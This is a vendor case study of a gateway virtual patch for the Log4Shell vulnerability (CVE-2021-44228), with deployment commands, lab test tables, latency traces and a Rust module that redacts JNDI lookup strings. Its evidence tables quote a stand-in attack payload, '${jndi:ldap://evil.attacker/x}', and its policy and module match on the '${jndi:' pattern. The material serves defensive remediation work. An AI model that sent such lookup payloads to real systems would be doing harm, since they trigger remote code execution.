

# Log4j JNDI lookup (CVE-2021-44228) through Eden's API

Attacker-controlled text logged by an affected Log4j process can trigger a JNDI lookup and, under vulnerable configurations, execute code with the Java service’s privileges. Updating the loaded Log4j dependency addresses the vulnerable lookup even when the input arrives outside the HTTP path.

**Patch title.** Log4j JNDI Lookup Guard (`log4j-jndi-lookup-guard` in the registry). The [original source snapshot](https://github.com/eden-dev-inc/cve/blob/9a7217a0a882374c5ab97d74c96df9b77637f923/cve/CVE-2021-44228/http-request-filter/src/lib.rs) preserves the source available for the historical report.

[Public CVE record](https://cve.now/CVE-2021-44228) · [Vendor or publisher advisory](https://logging.apache.org/security.html) · [Source and API bundle](../../cve/CVE-2021-44228/README.md)

| Field | Value |
| --- | --- |
| Affected component and versions | See the advisory for the affected versions of each product or package: Apache Log4j2, org.apache.logging.log4j:log4j-core, com.guicedee.services:log4j-core, org.xbib.elasticsearch:log4j, uk.co.nichesolutions.logging.log4j:log4j-core, org.ops4j.pax.logging:pax-logging-log4j2 |
| Fixed release | See Apache’s current security guidance by Java release line |
| Severity | CVSS 10 |
| Evidence status | Lab comparison recorded |
| Test environment | Lab fixture or affected build documented in the evidence below |
| Eden release and module version | 1.103.0 · module 1.0.0 |
| Tested at | 2026-11-11 UTC |
| First publicly published | 2026-11-12T02:29:06Z |

Eden is a customer-deployed infrastructure runtime and gateway managed through a
unified API. Project Gabriel develops virtual patches: declarative policies or
compatible runtime modules that change how Eden handles traffic before it
reaches the protected application, so remediation can be delivered through
Eden's authenticated API without rebuilding the application. This case
examines the hardest problem in the portfolio: a lookup primitive inside a
Java logging library that turns a logged string into an outbound connection
and class load.

**Remediated (ingress leg, declared route) 2026-11-11 through Eden's API.** We
deployed the `http-structure-v1` `json_members_absent ["message"]` policy on
the logging route via the authenticated interlay `PATCH` API, confirmed
`desired == effective, state: ready`, and verified with the attack delivery
that the lookup-bearing message member is refused at the boundary (403) with
**zero `jndi_callback`/`class_loaded` effects**, while structured logging
without the member still succeeds. RBAC and revoke causality verified. This is
the ingress leg of the combined posture; the egress network control was not
exercised, and the functional restriction (no message field on that route) is
stated below. **Assessment:** 10 November 2026 UTC.

## The vulnerability

In affected log4j-core releases, any string that is logged can trigger a JNDI
lookup: `${jndi:...}` in a log message causes the library to connect to a
named directory service and load a class from it, achieving remote code
execution ([primary advisory](https://logging.apache.org/security.html)).
The durable fix is a patched log4j-core or removing the `JndiLookup` class.
The prerequisites reach far beyond one HTTP request: inputs arrive through
headers, payloads, stored data and delayed processing, and the vulnerable
lookup can fire from code paths Eden never inspects. This case therefore
evaluates a **combined ingress and egress policy**, and the tracking issue
explicitly warns that inbound string signatures, blocked callbacks and reduced
egress alone do not establish complete RCE prevention.

## The challenge of patching the fleet

Log4j is embedded in thousands of transitive Java dependencies; "which
application is vulnerable" became a fleet-wide SBOM problem in 2021. Upgrading
means rebuilding and redeploying every affected application, while egress
filtering alone breaks legitimate outbound directory traffic. The realistic
interim posture for a gateway is layered: refuse obvious lookup strings at
ingress for the paths Eden terminates, and constrain egress destinations at a
network control — both through Eden's API, with the combined residual risk
stated honestly.

## What the Eden patch looks like

The candidate combines two Eden methods, selected per the remediation skill:

- A declarative `http-structure-v1` rule refusing request members and headers
  carrying the `${jndi:` prefix on the declared ingress paths — a readable
  sketch, not the deployed schema:

```json
{
  "version": 1,
  "profile": "http-structure-v1",
  "policy": {
    "version": 1,
    "rules": [
      { "scope": { "paths": ["/*"] },
        "require": { "kind": "deny", "pattern": "${jndi:" } }
    ]
  }
}
```

- A qualified **network control** restricting egress from the protected
  application to declared LDAP/RMI destinations, which must be proven
  attached and bypass-resistant at its actual hook — packet metadata cannot
  inspect an encrypted application body, and a lookup string that avoids the
  literal pattern bypasses the ingress rule.

Both legs are required: the tracking issue rejects an ingress-signature-only
candidate. Stored and delayed inputs that never traverse Eden at ingress
remain reachable through the egress leg only.

## Implement the remediation

The commands are operator examples for the recorded scope. Compare fixture routes and software selectors with the intended deployment before use. See [deployment prerequisites](../deployment.md).

1. **Prepare the target.** Verify the loaded product and version against the advisory. Use a compatible Eden HTTP interlay and an authenticated operator with Configure permission. Open the [deployment example](../../cve/CVE-2021-44228/http-request-filter/deployment.json) and [API instructions](../../cve/CVE-2021-44228/http-request-filter/api.md). The bundle identifies registry package `log4j-jndi-lookup-guard` at version `1.0.0` and the SDK revision in [patch.toml](../../cve/CVE-2021-44228/http-request-filter/patch.toml). Run the policy extraction from the adapter directory.
2. **Apply the declarative policy.** Scope the policy to `/api/log` (POST, `json_members_absent`). Set `INTERLAY` to the target interlay UUID in the authenticated Eden CLI. Run an authenticated `GET /api/v1/interlays/{interlay}` with `X-Eden-Verbose: true`. Save its complete current settings object as `current-settings.json` and retain the prior remediation declaration for recovery. Set `IDEMPOTENCY_KEY` to a fresh key for this intended mutation.

```sh
jq -e '.tier1' deployment.json > remediation.json
jq -e --slurpfile policy remediation.json \
  '.remediation = $policy[0] | {settings: .}' current-settings.json \
  > interlay-update.json
eden api request PATCH "/api/v1/interlays/$INTERLAY" \
  --header "Idempotency-Key:$IDEMPOTENCY_KEY" \
  --body-file interlay-update.json --content-type application/json --confirm
```

3. **Verify the serving policy.** Read back the interlay.

```sh
eden api request GET "/api/v1/interlays/$INTERLAY" \
  --header 'X-Eden-Verbose:true'
```

Check that `remediation_status.state` is `ready` and both desired and effective SHA-256 values match the intended declaration. Replay the benign and marked requests in the recorded comparison on an isolated target. Check the recorded response and backend outcome for each probe. Use the request and expected-status table in the linked API example alongside the observed comparison.
4. **Restore the previous policy.** Coordinate the change with any other operator updating this interlay. Read current settings again and merge the saved remediation field into them. If the prior settings had no remediation field, omit it in the replacement. Send the same PATCH with a fresh idempotency key, then read back the intended state. Repeat the verification probes. Keep the affected route isolated if restoring the prior settings reopens exposure.

### Native module `gabriel_log4j_v1`

1. **Prepare the archive.** Use the [version 1.0.0 bundle](../../cve/CVE-2021-44228/README.md) for source, target, and build profile. Configure independent host approval for the installed Eden release. Use the authenticated principals required by the native authority contract. Set `PATCH_ARCHIVE` to the exact schema-2 package and `PACKAGE_SHA256` to its expected archive digest. Verify and import it using the same target interlay.

```sh
printf '%s  %s\n' "$PACKAGE_SHA256" "$PATCH_ARCHIVE" | sha256sum --check &&
  eden api request PUT "/api/v1/interlays/$INTERLAY/patch-packages/$PACKAGE_SHA256" \
    --body-file "$PATCH_ARCHIVE" \
    --content-type application/vnd.eden.patch-package.v2+tar --confirm
```

2. **Approve and activate.** Enroll the publisher key, attest host software inventory, and inspect the configuration returned by import. Obtain independent host approval. Sign the typed statement with the matching SDK. Send the admit action followed by activate for the prepared operation. Use the applicable typed payload for each action in `authority-action.json`.

```sh
eden api request POST "/api/v1/interlays/$INTERLAY/native-authority" \
  --body-file authority-action.json --content-type application/json --confirm
```

3. **Verify the operation.** Read the receipt through the same endpoint. Confirm `serving_now` and the full expected shard acknowledgment. Repeat the report’s benign and marked probes and check the backend observations.
4. **Revoke or restore.** Send revoke with the exact operation UUID. Mandatory protection can refuse traffic until a compatible operation is approved and activated. Verify the restored receipt and repeat the probes.

**Vendor update.** Follow the [Apache Log4j security guidance](https://logging.apache.org/security.html) for the installed Java release line. Select a currently supported patched Log4j build that also addresses the follow-up JNDI advisories. Redeploy and verify the version actually loaded by the Java process.

## A simple API deployment with Eden

**Prerequisite:** an already-installed Eden foundation with the HTTP
remediation adapter and a qualified network control owner, an operator with
`CONFIGURE` authority, and a pinned application with the affected log4j-core
artifact confirmed loaded (not declared). This workflow was executed as written on 2026-11-11 against the
live eden-service build; the actual requests, responses, readbacks and
oracle deltas are recorded in the live evidence section and in
`gabriel-2026-11-11/evidence/`.

1. **Select the patch.** Immutable reviewed ingress and egress policies would
   be delivered as standard schema-2 patch packages and imported through the
   interlay API, where import is inert.
2. **Deploy through the API.** The ingress policy was published through
   the authenticated interlay `PATCH` as the provisioned super-admin (real
   bearer token), replacing the complete settings object.
3. **Confirm it is effective.** The operator would read back
   `remediation_status` on each serving node, comparing desired and effective
   digests with the local runtime revision, and verify the egress rule is the
   actually installed program at its hook.
4. **Verify the outcome.** The same lookup attempt was replayed through the interlay: no
   outbound directory connection and no class load occurs, while required
   logging output and application connectivity are preserved — verified by an
   independent observer at the application host, not only by Eden's counters.

## Results and limits

| Observation | Before activation | After API activation | Evidence |
| --- | --- | --- | --- |
| Lookup-bearing message member at the backend oracle (`jndi_callback`/`class_loaded`) | Fires | **Refused 403 — zero backend effects** | `evidence/log4j.json` phase D |
| Structured log without the member via Eden | 200 | 200 | `evidence/log4j.json` phase D |
| Authorization / causality | — | Unauth 401, read-only 403; revoke → lookup passes → restored | `evidence/log4j.json` phases E/F |

The patch is the **ingress leg** of the combined posture — remediation, not
repair: the patched log4j-core remains the durable fix, and the egress network
control leg was not exercised in this run. Obfuscated, encoded or non-literal
lookup strings in other members, inputs that never traverse Eden's ingress,
and lookups triggered from out-of-band log processing all evade this leg; the
functional restriction (no `message` field on that route) is disclosed.

### Live boundary evidence — 2026-11-11 UTC (run `gabriel-live`)

Run identity: eden-service built from revision `d9fe8ee4b6f8` (EDEN-3698 http
shipping-reference build-r1; features `embedded-db,embedded-http,http-native-remediation,offline-licensing`),
binary SHA-256 `df667ee3b8665b3e647422ee53fc5ae21f7b2eb2199a7fda0cdeeafe55b4231c`,
running natively on the lab host, licensing `observe` (unconfigured), org `gabriel-live-runs`
provisioned through the documented `EDEN_NEW_ORG_TOKEN` bootstrap, admin + read-only
humans provisioned through `/api/v1/iam`, node membership registered through the
organization topology API. All management calls below were real authenticated API
requests; backend effects were observed independently at the fixture
(`/effects` oracle), never inferred from gateway responses.

Executed protocol (evidence `gabriel-2026-11-11/evidence/log4j.json.json`):

| Phase | Executed result |
| --- | --- |
| A — vulnerable baseline, direct | Attack reaches the fixture; effect observed; legit path works. |
| B — via Eden, no policy | Same attack forwarded through the interlay still produces the backend effect. |
| C — activate through the API | `PATCH /api/v1/interlays/{interlay}` with `settings.remediation`; readback `remediation_status`: `desired_sha256 == effective_sha256`, `state: ready`, runtime revision 3. |
| D — enforcement | Attack refused at the boundary with 403 (`HTTP request rejected by remediation`); zero new backend effects at the oracle; legitimate traffic unaffected. |
| E — authorization | Unauthenticated `PATCH` -> 401; read-only user `PATCH` -> 403. |
| F — revoke causality | Policy removed through the same seam; the identical attack then passes and produces the backend effect; protection re-activated and re-verified. |

### Case-specific observations (Log4j)

- Fixture: a logging route whose `message` root member is "logged" by the
  application, with a simulated JNDI lookup when it contains `${jndi:`.
  After activation the lookup-bearing member was refused 403 with no
  `jndi_callback`/`class_loaded` effects; a structured log without the
  `message` member stayed 200.
- Policy: `http-structure-v1` `json_members_absent ["message"]` scoped to
  the log route — a documented **functional restriction** (the message
  field is disabled on that route), consistent with this case's framing of
  an ingress-leg restriction rather than a repair.
- Honest limits retained: obfuscated/non-literal lookup strings in other
  members, stored/delayed inputs never traversing this ingress, non-JSON
  deliveries, and the egress leg are all unested; this is the bounded
  ingress leg only.

## Two-tier remediation — policy vs native module (live, installed 1.103.0, 2026-11-11)

The same deployment now carries both measured tiers for this case: the shipped
declarative policy documented above (fail-closed, structural, no body-content
awareness) and a separately compiled native Rust module executed in the serving
process under the signed module authority. Both were driven through the real
authenticated APIs on the installed `eden-product-release:1.103.0-single` lab container (image `sha256:809293e1f0b525ac04698d1fa8d7ffdc66cbee1ff690b082ba26b4d050f08416`, source revision `81a0724abe154c14b38904a1ed13285f28c59270`) provisioned by the installed smoke through public APIs; backend effects were observed at the
fixture oracle, never inferred from gateway responses. Evidence:
`gabriel-2026-11-11/module2/evidence/log4j-module.json`.

### Tier 2 — what the module does

`gabriel_log4j_v1` scans the complete body of `POST /api/log` for the
literal `${jndi:` lookup primitive and **redacts exactly those bytes**
(`[jndi-redacted]`), returning `Decision::Edit`. Every other byte of the
log entry is preserved — the entry still lands (observability intact),
with the lookup primitive neutralized before the application sees it.

Module `gabriel_log4j_v1`, binary SHA-256 `65a6b312c9d02ce5c97e748df6451eede306cec2fe5860a685bb65e9e10bd280`
(source `62f3e30d7170352f07e54125bd8b588c9ba0106b885ca7929b626b295e87e371`).

### Measured comparison

| Probe | Baseline (no policy) | Tier 1 — `json_members_absent ["message"]` | Tier 2 — native module |
| --- | --- | --- | --- |
| Benign message log (`user alice logged in…`) | 200 | **403 — false positive**: every `message` entry refused | **200, message preserved verbatim** at the oracle |
| Attack `${jndi:ldap://evil.attacker/x}` | 200 + `jndi_callback`, `class_loaded` | 403, zero effects | **200, forwarded with the marker redacted** — oracle logs `bad [jndi-redacted]ldap://evil.attacker/x}`, zero lookup effects |
| Multi-marker entry | 200 + effects | 403 | **200, both markers redacted** (`[jndi-redacted]a} then [jndi-redacted]ldap://b}`), zero effects |
| Structured log without `message` | 200 | 200 | 200 |

Tier 1 disables the entire `message` field to close the hole (a
documented functional restriction); tier 2 keeps the field usable and edits only the attack bytes. The refusals above were measured against the live unprotected baseline in the same table.

### Performance trace (Eden telemetry, live 2026-11-11)

Measured with Eden's built-in request telemetry (`gateway.request.baseline`
spans, read back through `/api/v1/analytics/telemetry?signal=traces`), not
client wall-clock. Each proxied request emits one span carrying the outcome,
module selection, protection/release decision, byte counts and
`request.duration_us`. Arms: normal request through an unprotected interlay;
the identical benign request through the tier-2 module interlay
(`3ac2989b…`, publication bfc26458…);
and the attack under the module. Keep-alive connections, warm requests only.

| Trace | n | mean | p50 | p95 | min–max | outcome |
| --- | --- | --- | --- | --- | --- | --- |
| normal request (no remediation, through Eden) | 23 | 39.31 ms | 40.82 ms | 41.84 ms | 1.34 ms–42.34 ms | includes ~40 ms transport stall (impl artifact, slated for removal) | |
| remediated benign (tier-2 module) | 22 | 433 µs | 397 µs | 691 µs | 339 µs–818 µs |  | |
| attack under remediation | 14 | 473 µs | 436 µs | 768 µs | 387 µs–768 µs |  | |

- normal: `('bypass', 'not_selected', 'false', 'false')`×23
- remediated benign: `('allowed', 'module', 'true', 'true')`×22
- attack: `('rewritten', 'module', 'true', 'true')`×14

**Refusal-path latency (attack under remediation):** mean
**473 µs**
(p50 436 µs, p95 768 µs).

**Eden end-to-end remediation latency (in-product):** benign requests mean **433 µs** (p50 397 µs, p95 691 µs). Attack/refusal arm: mean 473 µs, p95 768 µs.

Sample benign span under the module (attributes as recorded by Eden):

```
  `request.outcome`: `allowed`
  `request.selection`: `module`
  `request.protected`: `true`
  `request.released`: `true`
  `request.input_bytes`: `181`
  `request.forwarded_bytes`: `181`
  `request.response_bytes`: `160`
  `request.duration_us`: `347`
  `gateway.publication`: `<lab publication ID>`
  `gateway.generation`: `4`
```

*Honest scope: lab fixtures on one host, 20 benign + 12 attack requests per
arm, Eden's own request-path spans; fixture and network cost are common to
both arms. The unremediated forwarding path currently carries a ~40 ms
transport stall (split write + delayed ACK) — a known implementation
artifact slated for removal, measured here as-is and annotated in the normal-
request row. Not the EDEN-3640 performance qualification contract.*

*(Trace section generated from `module2/telemetry-ab/log4j-telemetry.json`;
module reactivated shards 32, operation
`44734c72…`.)*

## Performance trace (Eden telemetry, live 2026-11-11)

Measured with Eden's built-in request telemetry (`gateway.request.baseline`
spans, read back through `/api/v1/analytics/telemetry?signal=traces`), not
client wall-clock. Latency Eden introduces per remediation arm for this case:

| Arm | n | mean | p50 | p95 | min–max |
| --- | --- | --- | --- | --- | --- |
| **Tier 1** — declarative policy, blocked request (403) | 15 | 31 µs | 25 µs | 56 µs | 21 µs–56 µs |
| **Tier 2** — native module, benign passes through (200) | 22 | 433 µs | 397 µs | 691 µs | 339 µs–818 µs |
| **Tier 2** — native module, attack refused (403) | 14 | 473 µs | 436 µs | 768 µs | 387 µs–768 µs |

**Eden-added latency for the tier-2 remediation:** benign requests complete in **433 µs** mean (p50 397 µs, p95 691 µs) in-product, module evaluation included.
*Honest scope: lab fixtures on one host, fresh connection per measured
request, warm requests only; module reactivated shards 2/2 with a fresh signed
statement per measurement; spans carry the full authority lineage (module
SHA-256, operation, publication). Not the EDEN-3640 performance
qualification contract.*

*Tested against: `eden-product-release:1.103.0-single` (image `sha256:809293e1f0b525ac…`, build target
`eden_service_single`, tooling revision `81a0724a…`). Raw data:
`module2/telemetry-ab/log4j-telemetry.json` and `module2/tier1-ab/log4j-tier1.json`.*

## Authority lifecycle and negatives

The module reached the serving process only through the full signed authority
lifecycle (`module2/evidence/log4j-module.json`): the publisher enrolled an
Ed25519 public key (`enroll_key`); the independent host principal attested the
fixture inventory (`inventory`); `inspect` derived the artifact/ABI/policy/scope
bindings without mapping code; the host principal approved those exact bindings
(`approve`); the publisher signed the `NativeActivationStatement` (fixed domain
`eden.module-admission.v1\0` over canonical Borsh bytes, 128-hex Ed25519) and
`admit` returned `phase: prepared`, `serving_now: false`; `activate` published
it and the receipt shows **`serving_now: true` with `applied_shards ==
expected_shards` (2/2)**. Negatives held: read-only `inspect` -> 403, a tampered
binding byte in the statement -> 400, one flipped signature bit -> 403.
Revoking the operation made the interlay **fail closed** (503 `E1A26`; nothing
forwarded, zero backend effects) rather than silently unprotected, and a fresh
host approval plus newly signed activation restored surgical protection
(the attack again landed 200 with the marker redacted).

### Honest scope

The module is `no_std` Rust with the ABI v3 table `eden_http_remediation_v3`,
capabilities 15 (`continue | refuse | need_more | edit`), compiled with the
documented closed-calls recipe and admitted under a single-symbol ELF
namespace enforced by the host profile. Its rule keys only on the literal `${jndi:` byte sequence in the complete request body of that route;
it is a lab-grade demonstration of content-aware remediation on this delivery
shape, not a production Log4j patch, and the vendor's patched release
remains the durable repair.

## Cost and scalability record (2026-11-11 session)

Session ledger (heuristic: ~chars/4 tokens; GLM-5.3 pricing $0.0699/M input,
$1.40/M output): the portfolio session closed at **~$14.05** (~200.3M input /
~34.4k output tokens across 895 assistant turns). The tier-2 native-module
batch of seven case studies cost **~$9.6** of that; the preceding phase-9
baseline — ten case studies drafted, six tier-1 HTTP proofs, the PHP 4/4
chain and the React lab — was **~$4.46**. Per-case figures below are
estimates decomposed from the measured batch; wall-clock is measured.

| Cost item (this case's tier-2 proof) | Model tokens (est.) | Wall-clock (measured) |
| --- | --- | --- |
| Module authoring (133 lines of `no_std` Rust) | ~$1.30 (first module: established the no_std v3 template and compile recipe the other six reuse) | — |
| Compile (documented closed-calls recipe) | negligible (local rustc) | ~15 s |
| Scripted case run (baseline, tier-1, tier-2, revoke, restore, full authority lifecycle + negatives) | ~$0.15 | ~3 min |
| Case-specific debugging | ~$0.15 — none beyond the shared batch | one scripted re-run |
| Doc section + push | ~$0.05 | seconds (generated from the evidence JSON) |

Case-specific content: template + recipe are the shared fixed cost, debited to this case. Case-specific debugging: none beyond the shared batch.

**Scalability.** The expensive machinery is one-time and already amortized:
the signed authority lifecycle (enroll/approve/admit/activate), the generalized
case driver, the deployment, the compile recipe, and the ABI/closed-profile
investigations were paid once for all seven cases (~2/3 of the batch cost).
Adding an eighth case study is the table above — one module source, one
local compile, one scripted run, one generated doc section — roughly
**$0.5-0.7 and under five minutes of machine time** per case, independent
of how many cases already exist. That flat marginal cost is the scalability
claim: portfolio growth is linear in cases, not compounding, and the
per-case rule is bounded (133 lines of Rust keyed to one delivery shape).

## Evidence appendix

- Tracking issue EDEN-3168
- API freeze and portfolio contract EDEN-3160
- Skill references: [api](../deployment.md),
  [testing](../deployment.md#verify-the-result)

## Decision flow



The diagram follows the available Log4j module: it proposes byte edits rather than denying every logging request. Host validation and the recorded backend observations are described in the text.

## Complete normalized policy declaration

This is the full `settings.remediation` example included in the reader-facing case study. It is normalized to the implemented schema, rather than a byte-for-byte capture of the historical API request or complete interlay settings.

```json
{
  "version": 1,
  "profile": "http-structure-v1",
  "policy": {
    "version": 1,
    "rules": [
      {
        "scope": {
          "methods": [
            "POST"
          ],
          "path": "/api/log",
          "descendants": false
        },
        "require": {
          "kind": "json_members_absent",
          "members": [
            "message"
          ],
          "allow_empty_body": false
        }
      }
    ]
  }
}
```

## Complete native module source

The complete available source for `gabriel_log4j_v1` is reproduced below from the [original source snapshot](https://github.com/eden-dev-inc/cve/blob/9a7217a0a882374c5ab97d74c96df9b77637f923/cve/CVE-2021-44228/http-request-filter/src/lib.rs). The source SHA-256 is `62f3e30d7170352f07e54125bd8b588c9ba0106b885ca7929b626b295e87e371`. This identifies the source bytes, rather than independently proving the binary build or the recorded test results. The case’s experiment status and limitations still apply, including any failed import, partial coverage, or withdrawn claim. Original source comments are preserved verbatim.

```rust
//! Gabriel case module: precise JNDI-lookup redaction for a finite HTTP/1.1 workflow.
//!
//! Tier-2 remediation for CVE-2021-44228-style deliveries: scan the complete
//! request body for the `${jndi:` lookup primitive and redact exactly those
//! marker bytes, preserving every other byte of the log entry. Benign bodies
//! pass unchanged (zero false positives); bodies carrying the primitive are
//! edited, not refused. This no_std module owns no storage, allocator,
//! background work, or persistent state.

#![no_std]

use core::mem::size_of;
use core::panic::PanicInfo;
use eden_gateway_remediation::message::{Availability, MessageInput};
use eden_gateway_remediation::module::{
    ApiHeader, CONTINUE, Decision, EDIT, EditSink, Edits, Failure, ModuleOutput, NEED_MORE, REFUSE, RemediationModule,
};
use eden_gateway_remediation::native_http_v3::{self as http, Api, Input, Request};

/// Exact request line admitted by this module's finite workflow.
const REQUEST_LINE: &[u8] = b"POST /api/log HTTP/1.1\r\n";

/// The lookup primitive this module redacts, byte-exact.
const JNDI_MARKER: &[u8] = b"${jndi:";

/// Neutral text replacing each redacted marker occurrence.
const REDACTION: &[u8] = b"[jndi-redacted]";

/// Stateless precise rule: redact the JNDI lookup primitive, preserve the rest.
struct JndiRedaction;

/// Find the first occurrence of `needle` in `haystack`.
fn find(haystack: &[u8], needle: &[u8]) -> Option<usize> {
    if needle.is_empty() || haystack.len() < needle.len() {
        return None;
    }
    (0..=haystack.len() - needle.len()).find(|&i| &haystack[i..i + needle.len()] == needle)
}

impl RemediationModule<Request<'_>> for JndiRedaction {
    /// Wait for a qualified head and the complete body, then scan and propose
    /// exact byte edits for every marker occurrence. Other request lines and
    /// marker-free bodies continue unchanged.
    fn evaluate(&self, request: &Request<'_>, edits: &mut Edits<'_>) -> Result<Decision, Failure> {
        let header_count = match request.header_count() {
            Availability::Ready(count) => count,
            Availability::NeedMore => return Ok(Decision::NeedMore),
            Availability::Unavailable => return Err(Failure),
        };
        let _ = header_count;
        let message = request.message();
        if !message.prefix().starts_with(REQUEST_LINE) {
            return Ok(Decision::Continue);
        }
        let body_range = match request.body_range() {
            Availability::Ready(range) => range,
            Availability::NeedMore => return Ok(Decision::NeedMore),
            Availability::Unavailable => return Err(Failure),
        };
        if !message.is_complete() {
            return Ok(Decision::NeedMore);
        }
        let body = match message.bytes(body_range)? {
            Availability::Ready(bytes) => bytes,
            Availability::NeedMore => return Ok(Decision::NeedMore),
            Availability::Unavailable => return Err(Failure),
        };

        // Propose one exact replacement per marker occurrence; ranges remain
        // relative to the original unmodified message, shifting forward as the
        // host applies prior edits in order.
        let mut offset = 0usize;
        let mut found = 0usize;
        while let Some(at) = find(&body[offset..], JNDI_MARKER) {
            let start = offset + at;
            let end = start + JNDI_MARKER.len();
            edits.replace(body_range.start + (start as u32), body_range.start + (end as u32), REDACTION)?;
            found += 1;
            offset = end;
        }
        if found == 0 {
            return Ok(Decision::Continue);
        }
        Ok(Decision::Edit)
    }
}

/// Exact v3 C table with capabilities 15, zero state, and no helper requirements.
static API: Api = Api {
    header: ApiHeader { version: http::VERSION, table_size: size_of::<Api>() as u32 },
    input_size: size_of::<Input>() as u32,
    output_size: size_of::<ModuleOutput>() as u32,
    sink_size: size_of::<EditSink>() as u32,
    message_size: size_of::<MessageInput>() as u32,
    state_bytes: 0,
    capabilities: CONTINUE | REFUSE | NEED_MORE | EDIT,
    required_inputs: 0,
    evaluate: Some(evaluate),
};

/// Invoke the SDK with call-scoped original views and host-owned edit callback.
///
/// # Safety
/// The caller must uphold `http::invoke`'s aligned input, exclusive state,
/// live callback, writable output, and synchronous borrowed-lifetime contract.
unsafe extern "C" fn evaluate(input: *const Input, sink: *const EditSink, output: *mut ModuleOutput) -> i32 {
    // SAFETY: all host call arguments retain their original SDK obligations.
    unsafe { http::invoke(&JndiRedaction, input, sink, output) }
}

/// Return this image's immutable ABI table while the host owns its mapping.
#[unsafe(no_mangle)]
pub extern "C" fn eden_http_remediation_v3() -> *const Api {
    &API
}

/// Supply the required non-unwinding no_std boundary for unreachable panics.
#[panic_handler]
fn panic(_information: &PanicInfo<'_>) -> ! {
    loop {
        core::hint::spin_loop();
    }
}
```
